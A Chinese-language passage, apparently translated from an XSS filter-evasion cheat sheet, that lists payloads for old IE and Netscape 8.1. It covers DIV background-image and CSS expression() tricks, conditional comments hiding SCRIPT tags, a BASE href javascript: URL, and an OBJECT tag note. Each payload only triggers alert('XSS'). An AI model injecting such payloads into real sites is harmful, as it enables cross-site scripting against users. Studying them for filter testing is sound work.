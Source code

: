 * * *

附加额外字符的DIV background-image
---------------------------

Rnaske开发了一个XSS fuzzer去探测可以在开括号和javascript之间加入哪些额外字符在 IE和安全模式下的 Netscape 8.1。都是一些十进制的字符，但是你也可以用十六进制来填充。（下面这些编码字符可以被使用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）

```
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">

```

* * *

DIV expression
--------------

它的一个变体是更加有效的去绕过实际的xss过滤器是在冒号和表达式之间添加换行符。

```
<DIV STYLE="width: expression(alert('XSS'));">

```

* * *

html条件选择注释块
-----------

只能工作在IE5.0 以及更新版或是使用了ie渲染引擎的Netscape 8.1 。 一些网站认为任何包裹在注释中的内容都是安全的，因此并不会被移除。这将允许我们的xss向量。或者系统可能通过添加注释对某些内容去试图无害的渲染它。如我们所见，这有时并不起作用。

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
 <![endif]-->

```

* * *

BASE标签
------

工作ie或是使用了安全模块的Netscape 8.1，你需要使用 "//" 斜体文本去避免javascript错误。这需要当前网站使用相对路径（例如images/image.jpg）而不是绝对路径。如果路径开始用一个斜杠（例如"/images/image.jpg"），你需要去掉xss向量中的一个斜杠（只有在两个斜杠的情况下才会起到注释作用）

```
<BASE HREF="javascript:alert('XSS');//">

```

* * *

OBJECT标签
--------

如果允许objects标签，你也可以注入病毒payloads去感染用户。类似于APPLET标签。这个链接文件是一个包含xss代码的html文件。
